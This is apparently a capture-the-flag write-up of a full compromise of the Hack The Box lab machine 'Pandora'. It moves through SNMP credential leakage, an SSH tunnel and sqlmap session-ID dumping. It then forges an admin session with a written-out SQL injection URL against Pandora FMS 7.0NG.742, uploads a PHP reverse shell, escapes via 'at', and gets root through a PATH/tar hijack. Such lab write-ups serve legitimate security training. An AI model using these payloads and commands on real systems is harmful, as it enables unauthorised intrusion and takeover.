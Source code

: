# Pandora

## Tools
- nmap
- snmpwalk
- sqlmap
- nc

## Enumeration
run Nmap

```
nmap -A 10.10.11.136
```

![](https://i.imgur.com/MSVwynD.png)
here we see 2 open ports, ssh 22 and http 80

## Website
![](https://i.imgur.com/nt6UNby.png)
Nothing interesting in the source code
Directory Bruteforcing using ffuf, Nothing also

## More Enumeration
I tried to run nmap to check all ports, but found nothing.
We can also check UDP ports

```
nmap -sU 10.10.11.136
```

![](https://i.imgur.com/hPynFwx.png)
We have SNMP Open here!

## SNMP Enumeration
let's run snmpwalk and save the output in a file so we can analyze it.

```
snmpwalk -v1 -c public 10.10.11.136 > snmapwalk.txt
```

after reading through the file, I found this
![](https://i.imgur.com/zwvEjIZ.png)

## Gaining Access
let's connect to SSH using these credentials

```
ssh daniel@10.10.11.136
```

![](https://i.imgur.com/BPNy8Tx.png)

## Privilege Escalation
check kernel version

```
uname -a
```

![](https://i.imgur.com/9eQMJwz.png)
I found an exploit for this version *Linux Kernel 5.4 - 'BleedingTooth'*
but there's no c compiler on the machine

check what we can run using sudo

```
sudo -l
```

![](https://i.imgur.com/eXIoLRV.png)

I will run [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to collect more information about the system
Transfering the script to the machine

```
scp linpeas.sh  daniel@10.10.11.136:/home/daniel
```

after reading through its output, I found that there's another website called pandora
![](https://i.imgur.com/f6Lxl9X.png)
let's check /etc/hosts

```
cat /etc/hosts
```

![](https://i.imgur.com/S1upE6A.png)
we can access it just through this machine
so, let's tunnel a session to our localhost

```
ssh -L 8080:127.0.0.1:80 daniel@10.10.11.136
```

now we can access the website **127.0.0.1:8080**
![](https://i.imgur.com/suKe4u8.png)
It's login page for Pandora FMS event system
let's try to log in using daniel's credentials
![](https://i.imgur.com/aVcSWub.png)
we can see its version at the bottom of the page **v7.0NG.742_FIX_PERL2020**
Searching for an exploit, I found this [blog post](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)
Unauthenticated SQL Injection via session_id parameter on /include/chart_generator.php page
first, let's capture the request with burp suite and save it to a file
![](https://i.imgur.com/AFo76D6.png)
let's run sqlmap

```
sqlmap -r req.txt
```

![](https://i.imgur.com/9MN8S3y.png)
enumerating databases

```
sqlmap -r req.txt --dbs
```

![](https://i.imgur.com/9yhonzE.png)
enumerating pandora database tables

```
sqlmap -r req.txt --tables -D pandora
```

![](https://i.imgur.com/8ftNXOU.png)
after going through some tables, I found a table called **tsessions_php** storing php session ids

```
sqlmap -r req.txt --dump -T tsessions_php -D pandora
```
here we have php session id for user matt
![](https://i.imgur.com/Wff3MLB.png)

change PHPSESSID cookie with matt's php session ID we found
![](https://i.imgur.com/OveuuAZ.png)

We need to escalate to admin.
This [repo](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py) has a payload to gain admin access

visit this link ->
http://127.0.0.1:8080/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO

Admin tools > File manager, we can upload our [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/).

> Note: don't forget to change the ip address in the reverse shell file to your ip

![](https://i.imgur.com/rvxWCXN.png)
![](https://i.imgur.com/JG61wqC.png)
let's first open listener before firing the reverse shell

```
nc -lvp 1234
```

![](https://i.imgur.com/8xvWeMD.png)
Now all we need is to locate where our file is
hovering over any of the directories available, we can see its link on the bottom left corner. it says directory=images/backgrounds
so, Our reverse shell is at **http://127.0.0.1:8080/pandora_console/images/revshell.php**
let's open it
![](https://i.imgur.com/iqQAQFV.png)

we now got access to matt's account
![](https://i.imgur.com/vPLwpiL.png)

User flag
![](https://i.imgur.com/P2T70wn.png)

## Privilege Escalation
user matt can't run sudo
![](https://i.imgur.com/3JNRdYg.png)
running linpeas again
we can use **at** to break out from restricted environments
![](https://i.imgur.com/F6EwiBP.png)

[at command](https://gtfobins.github.io/gtfobins/at/#sudo)
break out using at, and then spawning a tty

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://i.imgur.com/n83DhlW.png)

/usr/bin/pandora_backup file looks interesting.

![](https://i.imgur.com/Uwjjd8J.png)

we don't have Strings to analyze it.
I will just run `cat` and see what it contains

![](https://i.imgur.com/GtmthYd.png)

it runs tar to compress some files
we can exploit that by overwriting tar program

first, we create our version of tar in /tmp directory
```
cd /tmp
echo "/bin/bash" > tar
chmod +x tar
```

![](https://i.imgur.com/NGaHyWf.png)

add tmp in the PATH variable before all directories
```
export PATH=/tmp:$PATH
```

![](https://i.imgur.com/eBmEBkf.png)

now we can run our file and gain root access
```
/usr/bin/pandora_backup
```

![](https://i.imgur.com/32FggtX.png)

root flag

![](https://i.imgur.com/SGLVYyx.png)

## Recourses
- https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained
- (https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py
- https://github.com/pentestmonkey/php-reverse-shell/blob/
- https://gtfobins.github.io/gtfobins/at/#sudo
- http://www.linfo.org/path_env_var.html#:~:text=PATH%20is%20an%20environmental%20variable,commands%20issued%20by%20a%20user.
- https://www.pentestpartners.com/security-blog/exploiting-suid-executables/
